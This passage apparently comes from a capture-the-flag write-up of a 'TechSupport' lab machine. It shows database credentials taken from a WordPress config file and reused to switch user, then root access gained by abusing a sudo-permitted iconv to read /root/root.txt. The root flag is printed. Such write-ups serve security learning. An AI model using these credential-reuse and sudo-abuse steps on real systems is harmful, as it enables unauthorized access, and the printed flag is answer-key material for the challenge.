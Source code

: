   ```
  
  /** MySQL database username */
  define( 'DB_USER', 'support' );
  
  /** MySQL database password */
  define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
  
  /** MySQL hostname */
  define( 'DB_HOST', 'localhost' );
  
  /** Database Charset to use in creating database tables. */
  define( 'DB_CHARSET', 'utf8' );
  
  /** The Database Collate type. Don't change this if in doubt. */
  define( 'DB_COLLATE', '' );
  [SNIP!]
  ```
  
- As always I try newly found passwords on all available services and well got in as `scamsite`.

  ```
  www-data@TechSupport:/var/www/html/wordpress$ su scamsite 
  Password: 
  scamsite@TechSupport:/var/www/html/wordpress$ whoami
  scamsite
  scamsite@TechSupport:/var/www/html/wordpress$ id
  uid=1000(scamsite) gid=1000(scamsite) groups=1000(scamsite),113(sambashare)
  ```
  
- Now I switched to SSH and continued to root.

---

## 👑 Root Privilege Escalation

- Root flag is pretty simple, `sudo -l` and GTFOBins will carry this.

  ```
  scamsite@TechSupport:~$ sudo -l
  Matching Defaults entries for scamsite on TechSupport:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User scamsite may run the following commands on TechSupport:
      (ALL) NOPASSWD: /usr/bin/iconv
  ```
  
- On GTFOBins, you can find the one-liner exploit for `iconv`. We will use it to read the flag.

  ```
  scamsite@TechSupport:~$ sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "/root/root.txt" 
  851b8233a8c09400ec30651bd1529bf1ed02790b  -
  ```

---
